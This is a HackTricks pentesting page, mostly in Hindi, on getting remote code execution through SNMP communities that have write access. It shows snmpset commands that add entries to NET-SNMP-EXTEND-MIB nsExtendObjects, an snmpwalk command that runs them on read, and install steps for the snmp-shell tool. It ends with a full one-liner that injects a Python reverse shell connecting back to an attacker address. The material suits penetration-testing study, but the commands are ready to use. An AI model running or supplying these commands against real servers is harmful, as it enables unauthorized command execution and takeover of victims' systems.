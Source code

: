 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

# SNMP RCE

यदि व्यवस्थापक डिवाइस या सर्वर पर इसकी डिफ़ॉल्ट कॉन्फ़िगरेशन को नजरअंदाज करता है, तो एक हमलावर SNMP का शोषण कर सकता है। **लिनक्स ऑपरेटिंग सिस्टम पर लिखने की अनुमति (rwcommunity) के साथ SNMP समुदाय का दुरुपयोग करके**, हमलावर सर्वर पर कमांड निष्पादित कर सकता है।

## अतिरिक्त कमांड के साथ सेवाओं का विस्तार करना

SNMP सेवाओं का विस्तार करने और अतिरिक्त कमांड जोड़ने के लिए, "nsExtendObjects" तालिका में नई **पंक्तियाँ जोड़ना** संभव है। यह `snmpset` कमांड का उपयोग करके और आवश्यक पैरामीटर प्रदान करके किया जा सकता है, जिसमें निष्पादन योग्य फ़ाइल का पूर्ण पथ और निष्पादित करने के लिए कमांड शामिल है:
```bash
snmpset -m +NET-SNMP-EXTEND-MIB -v 2c -c c0nfig localhost \
'nsExtendStatus."evilcommand"' = createAndGo \
'nsExtendCommand."evilcommand"' = /bin/echo \
'nsExtendArgs."evilcommand"' = 'hello world'
```
## कमांड निष्पादन के लिए इंजेक्ट करना

SNMP सेवा पर चलाने के लिए कमांड इंजेक्ट करने के लिए कॉल किए गए बाइनरी/स्क्रिप्ट का अस्तित्व और निष्पादन योग्य होना आवश्यक है। **`NET-SNMP-EXTEND-MIB`** निष्पादन योग्य के लिए पूर्ण पथ प्रदान करने की आवश्यकता होती है।

इंजेक्ट किए गए कमांड के निष्पादन की पुष्टि करने के लिए, `snmpwalk` कमांड का उपयोग SNMP सेवा को सूचीबद्ध करने के लिए किया जा सकता है। **आउटपुट कमांड और इसके संबंधित विवरण प्रदर्शित करेगा**, जिसमें पूर्ण पथ शामिल है:
```bash
snmpwalk -v2c -c SuP3RPrivCom90 10.129.2.26 NET-SNMP-EXTEND-MIB::nsExtendObjects
```
## Running the Injected Commands

जब **इंजेक्ट किया गया कमांड पढ़ा जाता है, तो इसे निष्पादित किया जाता है**। इस व्यवहार को **`run-on-read()`** के रूप में जाना जाता है। कमांड का निष्पादन snmpwalk पढ़ने के दौरान देखा जा सकता है।

### Gaining Server Shell with SNMP

सर्वर पर नियंत्रण प्राप्त करने और सर्वर शेल प्राप्त करने के लिए, mxrch द्वारा विकसित एक पायथन स्क्रिप्ट का उपयोग [**https://github.com/mxrch/snmp-shell.git**](https://github.com/mxrch/snmp-shell.git) से किया जा सकता है।

वैकल्पिक रूप से, SNMP में एक विशिष्ट कमांड इंजेक्ट करके मैन्युअल रूप से एक रिवर्स शेल बनाया जा सकता है। यह कमांड, जो snmpwalk द्वारा ट्रिगर किया जाता है, हमलावर की मशीन के लिए एक रिवर्स शेल कनेक्शन स्थापित करता है, जिससे पीड़ित मशीन पर नियंत्रण प्राप्त होता है।
आप इसे चलाने के लिए पूर्व-आवश्यकता स्थापित कर सकते हैं:
```bash
sudo apt install snmp snmp-mibs-downloader rlwrap -y
git clone https://github.com/mxrch/snmp-shell
cd snmp-shell
sudo python3 -m pip install -r requirements.txt
```
या एक रिवर्स शेल:
```bash
snmpset -m +NET-SNMP-EXTEND-MIB -v 2c -c SuP3RPrivCom90 10.129.2.26 'nsExtendStatus."command10"' = createAndGo 'nsExtendCommand."command10"' = /usr/bin/python3.6 'nsExtendArgs."command10"' = '-c "import sys,socket,os,pty;s=socket.socket();s.connect((\"10.10.14.84\",8999));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\"/bin/sh\")"'
```
## संदर्भ
* [https://rioasmara.com/2021/02/05/snmp-arbitary-command-execution-and-shell/](https://rioasmara.com/2021/02/05/snmp-arbitary-command-execution-and-shell/)


{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो** करें [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
